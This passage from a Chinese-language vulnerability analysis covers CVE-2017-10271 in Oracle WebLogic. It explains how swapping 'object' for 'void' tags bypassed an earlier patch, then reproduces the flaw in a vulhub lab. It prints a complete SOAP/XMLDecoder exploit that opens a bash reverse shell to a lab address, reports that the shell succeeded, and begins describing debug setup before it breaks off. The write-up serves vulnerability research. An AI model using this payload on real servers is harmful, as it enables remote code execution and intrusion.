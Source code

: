 这里就是将 object 标签进行过滤，绕过方式就是将 object 修改成 void，也就是 CVE-2017-10271

### 2.4 CVE-2017-10271 分析

**环境搭建**：  
使用 vulhub 中的环境，修改 docekr-compose.yml 文件，加上 8453 端口的映射，使其能够调试  
**复现**：  
exp:

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void> 
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

bp 抓包  
[![](assets/1699005728-a2a1a17ef555436d00eff7d96b1c2217.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101201316-0987ec50-78b0-1.png)  
反弹 shell 成功  
**远程调试**：  
进入容器，配置 weblogic 开启远程调试  
改`/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh`文件，加入以下内容
